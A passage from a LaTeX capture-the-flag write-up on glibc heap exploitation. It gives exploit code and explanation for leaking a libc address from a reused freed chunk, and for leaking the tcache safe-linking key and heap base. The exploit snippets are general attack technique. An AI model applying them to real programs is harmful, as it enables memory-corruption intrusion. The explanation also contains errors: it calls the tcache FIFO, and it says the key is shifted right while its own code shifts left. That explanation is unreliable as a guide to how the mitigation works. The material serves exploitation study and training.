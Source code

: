     \begin{verbatim}     
    malloc(0x500,0)
    malloc(0x60,1)
    delete(0)
    pause()
    malloc(0x500,0)
    view(0)
    io.recvuntil("note : ")
    libc_addr=u64(io.recvline(False).ljust(8,b"\x00"))
    libc_addr=libc_addr-0x21ace0
    libc.address=libc_addr
    \end{verbatim}
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=1\linewidth]{Images/leak_libc_heap_chall.png}
        \caption{Leak libc.}
        \label{fig:enter-label}
    \end{figure}
    As you can see at address \texttt{0x55671813e2c0} we have a pointer to libc, at this point we just need to reallocate chunk of the same size and view it, malloc will not clean the contents of the freed chunk allowing us to leak a pointer to libc. \newline
    \paragraph{leak heap base and safe linking bypass}
    As regards heap leak, the same technique used previously is used but with the difference that the victim chunk will be of a size that allows us to insert it into the tcache after it is freed.\newline
    In fact, the tcache creates a FIFO list of freed chunks for each chunk size which will be incremented by 0x10.\newline
    the code follows:
    \begin{verbatim}
    #lek heap and safe linking
    malloc(0x90,2)
    delete(2)
    malloc(0x90,2)
    view(2)
    io.recvuntil("note : ")
    key=u64(io.recvline(False).ljust(8,b"\x00"))
    heap_base = key<<12
    success(f"SAFE LINKING KEY LEAK@: {hex(key)} ")
    success(f"HEAP BASE LEAK@: {hex(heap_base)} ")
    delete(1)
    delete(2)
    \end{verbatim}
    As you can see, we allocate a chunk of size 0x90 and make this free, after we reallocate it we will have a heap leak.\newline
    As regards the safe link bypass, the leak that we will generate will be the key that we will need to bypass the mitigation, in fact by performing an xor operation between the key and the pointer on the heap any address on the heap will bypass safe linking.\newline
    Finally, by shifting the key to the right we will have the base of the heap.
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=1\linewidth]{Images/leak_heap_heap_chall.png}
        \caption{Heap leak.}
        \label{fig:enter-label}
    \end{figure}
    \clearpage
